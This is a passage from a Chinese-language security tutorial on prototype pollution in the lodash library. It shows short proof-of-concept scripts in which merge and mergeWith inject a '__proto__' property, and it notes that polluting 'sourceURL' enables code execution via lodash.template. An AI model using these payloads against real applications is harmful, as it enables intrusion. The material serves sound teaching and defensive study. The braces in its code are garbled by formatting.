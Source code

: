 ```
var lodash= require('lodash');
var payload = '`{`"__proto__":`{`"whoami":"Vulnerable"`}``}`';

var a = `{``}`;
console.log("Before whoami: " + a.whoami);
lodash.merge(`{``}`, JSON.parse(payload));
console.log("After whoami: " + a.whoami);
```

我们在 `lodash.merge(`{``}`, JSON.parse(payload));` 处下断点，单步结束后可以看到：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01c4ee0f5c106dba15.png)

成功在类型为 Object 的 a 对象的 `__proto__` 属性中添加了一个 `whoami` 属性，值为 `Vulnerable`，污染成功。

在 lodash.merge 方法造成的原型链污染中，为了实现代码执行，我们常常会污染 `sourceURL` 属性，即给所有 Object 对象中都插入一个 `sourceURL` 属性，然后通过 lodash.template 方法中的拼接实现任意代码执行漏洞。后文中我们会通过 [Code-Breaking 2018] Thejs 这道题来仔细讲解。

### <a class="reference-link" name="lodash.mergeWith%20%E6%96%B9%E6%B3%95%E9%80%A0%E6%88%90%E7%9A%84%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93"></a>lodash.mergeWith 方法造成的原型链污染

这个方法类似于 `merge` 方法。但是它还会接受一个 `customizer`，以决定如何进行合并。 如果 `customizer` 返回 `undefined` 将会由合并处理方法代替。

```
mergeWith(object, sources, [customizer])
```

该方法与 `merge` 方法一样存在原型链污染漏洞，下面给出一个验证漏洞的 POC：

```
var lodash= require('lodash');
var payload = '`{`"__proto__":`{`"whoami":"Vulnerable"`}``}`';

var a = `{``}`;
console.log("Before whoami: " + a.whoami);
lodash.mergeWith(`{``}`, JSON.parse(payload));
console.log("After whoami: " + a.whoami);
```

我们在 `lodash.mergeWith(`{``}`, JSON.parse(payload));` 处下断点，单步结束后可以看到：

[![](https://p4.ssl.qhimg.com/t0181831a91bb27dbaf.png)](https://p4.ssl.qhimg.com/t0181831a91bb27dbaf.png)

成功在类型为 Object 的 a 对象的 `__proto__` 属性中添加了一个 `whoami` 属性，值为 `Vulnerable`，污染成功。

### <a class="reference-link" name="lodash.set%20%E6%96%B9%E6%B3%95%E9%80%A0%E6%88%90%E7%9A%84%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93"></a>lodash.set 方法造成的原型链污染

Lodash.set 方法可以用来设置值到对象对应的属性路径上，如果没有则创建这部分路径。 缺少的索引属性会创建为数组，而缺少的属性会创建为对象。

```
set(object, path, value)
```
- 示例：
```
var object = `{` 'a': [`{` 'b': `{` 'c': 3 `}` `}`] `}`;

_.set(object, 'a[0].b.c', 4);
console.log(object.a[0].b.c);
// =&gt; 4

_.set(object, 'x[0].y.z', 5);
console.log(object.x[0].y.z);
// =&gt; 5
```